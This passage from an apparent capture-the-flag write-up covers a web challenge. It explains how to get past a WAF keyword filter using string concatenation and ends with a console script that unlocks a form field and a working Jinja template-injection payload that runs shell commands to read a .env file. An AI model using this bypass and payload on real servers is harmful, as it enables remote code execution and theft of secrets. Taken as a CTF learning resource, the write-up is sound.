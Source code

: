         - **Error `has no attribute '[REDACTED]'`:** Shows the WAF is finding and removing sensitive keywords like `__globals__`. The solution is to try `getattr()`.
        - **Error `unexpected ')'`:** The nested `getattr()` calls likely triggered a pattern-based filter. The solution is to revert to bracket notation but combine it with **string concatenation** to hide keywords (e.g., `['__glo' + 'bals__']`).
        - **Error `has no attribute 'p[REDACTED]'`:** Reveals the WAF also filters dangerous function names like `open`. The solution is to apply string concatenation to the function names as well (`['pop' + 'en']`).
4. **Stage 4: Finding and Reading the Flag**
    - After successfully crafting a full RCE payload, the command `cat /flag.txt` returns an empty result.
    - The payload is used to run `ls -la` to perform reconnaissance on the file system. The output reveals the existence of a `.env` file.
    - The command in the payload is changed to `cat .env` to read the contents of this file, revealing the final flag.

---

## Exploit Script

The exploit consists of two parts: the JavaScript to unlock the form and the final SSTI payload.

**1. JavaScript to unlock the input field (run in Console):**

```jsx
const trickInput = document.getElementById('trick');
trickInput.removeEventListener('focus', window.trickFocus);
trickInput.removeEventListener('keydown', window.trickKeyHandler);
for (let i = 0; i < 1000; i++) { clearInterval(i); }
trickInput.readOnly = false;
trickInput.dataset.locked = '0';

```

**2. Final SSTI Payload to read the flag (placed in the input field):**

This payload is engineered to bypass all identified filters.

```python
{{ self['__in' + 'it__']['__glo' + 'bals__']['__buil' + 'tins__']['__im' + 'port__']('os')['pop' + 'en']('cat .env')['re' + 'ad']() }}

```

---

## Result (Flag)

After submitting the final SSTI payload, the server executes the command and returns the content of the `.env` file.

`FLAG=EnXp{N01T53UQFTC34T3DAM5A47ANUK}`

---

